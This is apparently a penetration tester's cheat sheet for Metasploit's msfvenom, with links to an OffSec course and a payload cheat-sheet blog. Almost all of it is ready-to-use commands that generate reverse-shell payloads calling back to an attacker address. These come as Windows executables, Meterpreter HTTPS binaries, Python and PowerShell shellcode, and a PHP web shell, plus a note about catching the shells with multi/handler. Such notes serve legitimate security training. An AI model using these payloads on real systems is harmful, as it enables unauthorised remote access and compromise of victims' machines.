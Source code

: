 > Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code.


Offensive Security's Free Metasploit Course
https://www.offsec.com/metasploit-unleashed/

MSFVenom Cheat Sheet
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

# MSFvenom
## Usage

#Shell_Access #Remote_Access

List payloads
```bash
msfvenom -l payloads
```

Creating a Windows executable reverse shell payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.69.123 LPORT=6969 -f exe -a x86 --platform Windows -o reverse_shell.exe
```

Creating a Windows executable with a non-staged TCP reverse shell payload
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.69.123 LPORT=443 -f exe -o nonstaged.exe
```

Creating a Windows executable with a staged TCP reverse shell payload 
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.69.123 LPORT=443 -f exe -o staged.exe
```
- To get a functional interactive command prompt, we can use Metasploit's multi/handler module

Generate meterpreter reverse TCP payload for python
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.69.123 LPORT=1990 -f python -b "\x00\x20" -v shellcode
```

Generate a PowerShell compatible payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.69.123 LPORT=443 -f powershell -v sc
```

Generate PHP reverse shell payload
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.69.123 LPORT=4444 -f raw > shell.php
```

Windows executable with a Meterpreter HTTPS reverse shell payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.69.123 LPORT=443 -f exe -o met.exe
```

